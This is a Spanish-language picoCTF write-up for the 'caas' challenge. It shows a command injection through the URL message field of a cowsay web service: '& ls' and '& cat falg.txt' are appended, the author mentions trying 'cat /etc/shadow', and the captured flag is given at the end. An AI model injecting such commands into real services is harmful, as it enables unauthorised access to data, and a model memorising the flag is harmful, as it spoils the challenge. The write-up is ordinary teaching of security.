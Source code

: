 ```yaml
---
title: caas
date: 2025-05-23 12:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, caas, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>caas
Author: BrownieInMotion
Description
Now presenting cowsay as a service
{: .prompt-tip }

Si abrimos el enlace de la web, nos aparecerá lo que parecen unas indicaciones para utilizar este servicio

``` html
Cowsay as a Service
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
Supongo que tenemos que explotar de alguna manera el hecho de que podemos insertar en __message__ algún comando. 
Que tal si pruebo algo como "holaquetal & cat /etc/shadow", comienzo con un simple ls y encuentrro 

```
https://caas.mars.picoctf.net/cowsay/hello%20&%20ls
```

Añadiendo el ls podemos ver un archivo interesante falg.txt
```
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

https://caas.mars.picoctf.net/cowsay/hello%20&%20cat%20falg.txt

```
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

flag: **picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

